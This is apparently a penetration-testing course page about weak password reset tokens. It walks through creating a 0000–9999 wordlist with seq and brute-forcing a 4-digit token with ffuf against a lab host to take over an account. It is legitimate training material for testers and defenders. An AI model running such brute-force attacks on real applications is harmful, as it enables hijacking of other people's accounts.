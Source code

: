 # Brute-Forcing Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

***

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

***

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```shell-session
$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```shell-session
$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:

```shell-session
$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

<figure><img src="../../../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>
